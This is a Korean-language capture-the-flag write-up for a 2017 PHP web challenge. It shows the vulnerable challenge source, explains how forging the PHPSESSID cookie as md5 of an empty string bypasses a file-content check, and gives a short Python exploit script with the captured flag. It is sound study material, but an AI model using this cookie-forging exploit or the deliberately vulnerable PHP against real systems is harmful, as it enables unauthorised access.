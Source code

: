 # 2017 h3x0r WEB - File with PHP

## Key words

- $\_SESSION, $\_COOKIE
- (php) preg_match
- (php) unlink

## Solution

문제에 접속하면 `Blank Page. LoL` 이라고만 뜨고 아무것도 뜨질 않습니다. 소스보기를 해보아도 별다른게 보이지 않아 `쿠키` 값을 확인해보았습니다.

확인 결과 해더 쿠키쪽에 다음과 같이 설정이 되어 있음을 볼 수 있습니다.

> Cookie:source=0; PHPSESSID=vpjjvib3sska8mgdglp3vg7in5

`PHPSESSID`는 PHP세션을 위해 존재하지만 `source`내용이 의심스럽습니다. 이 값을 `1`로 변경해보고 다시 요청하면 페이지에 문제 소스 코드가 나타나게 됩니다.

```php
<?php
    $flag = 1;
    include "config.php";

    $_SESSION[cookie] = $_COOKIE[PHPSESSID];

    if($_GET['mode']=="pwn") {

        $f=file("$_SESSION[cookie].txt");

        if(preg_match("/^$_SESSION[cookie]$/i", md5($f[0]))) {
            unlink("$_SESSION[cookie].txt");
            echo $flag;
        }

        $f = fopen(md5($_SESSION[cookie]).".txt", "w");
        fwrite($f,$_SESSION[cookie]);
        fclose($f);
        usleep(300000);
        unlink(md5($_SESSION[cookie]).".txt");
    }

    if($_COOKIE['source']) {
        show_source(__FILE__);
        exit();
    }

    setcookie('source', 0);
    echo "<h3> Blank Page. LoL </h3>";
?>
```

문제에서 제공된 소스의 첫 부분에 `$flag = 1`로 되어 있지만 실제로 서버에서는 달리 설정되어 있거나, `config.php`에서 정상적인 flag 값으로 설정하게 됩니다.

문제에서 flag를 얻는 플로우는 다음과 같습니다.

- $\_GET['mode']의 값이 `pwn`
- 유저가 요청한 쿠키의 `PHPSESSID`값을 읽어 $\_SESSION[cookie]에 저장한 뒤, `$\_SESSION[cookie].txt` 파일을 읽음
- 읽은 파일의 첫 번째 줄과 $\_SESSION[cookie]가 일치하게 되면 플래그를 출력

문제에서 로직적으로 버그가 생기는 부분은 처음에 세션을 사용자로부터 받고 파일을 읽었을 때, 해당 파일이 존재하지 않는 경우에 대해 처리가 안되어 있다는 점 입니다.

만약 쿠키 세션을 서버에 파일로 존재하지 않는 값으로 전달하게 되면 `$f[0]`의 값이 `null`이 되게 되고 결국 `md5(null)`과 제가 전달한 세션 값을 비교하고 동일한지 체크 하게 됩니다.

따라서, 쿠키의 세션값을 `md5(null)`로 만들어서 전달할 때 서버쪽에 해당 파일이 존재 하지 않는다면 플래그를 출력 할 것입니다.

한 가지 주의할 점은 `$f[0]`가 `NULL`값을 갖지만 널 값은 스페셜 문자로 사용되는 언어나 라이브러리에 따라서 달라 질 수 있습니다.

제공된 PHP 버전의 `NULL`값은 `Empty String`이기 때문에 `md5("")`로 해쉬를 해야 합니다.

## Code

```python
import requests
import hashlib

url = "http://13.124.93.183/h3x0rctf/d41d8cd98f00b204e9800998ecf8427e.php"

headers = { "Cookie": "PHPSESSID=" + hashlib.md5("").hexdigest() }
params  = { "mode": "pwn" }
r = requests.get(url, params=params, headers=headers)
print r.content

# result
# H3X0R{c65a4cb5ecf62bb0c995b7cd7b54db71}<h3> Blank Page. LoL </h3>
```
